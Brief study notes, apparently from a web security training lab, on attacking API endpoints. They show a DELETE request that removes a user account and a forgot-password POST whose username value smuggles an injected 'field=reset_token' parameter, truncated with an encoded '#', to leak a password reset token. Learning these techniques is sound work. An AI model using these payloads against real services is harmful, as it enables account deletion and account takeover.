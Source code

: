 ____

# Exploiting an API endpoint using documentation

```html
DELETE api/user/carlos
```

# Exploiting server-side parameter pollution in a query string

![[Pasted image 20240911045910.png]]

Adding the additional parameter `field` with variable `reset_token` in the POST request, leak the sensitive information to reset password token.

Attempt to truncate the server-side query string using a URL-encoded `#` character: %23

```
POST /forgot-password

csrf=EOaA9KP0jcmyGMZ9SJcknOViH7bSKzS5&username=administrator%26field=reset_token%23
```

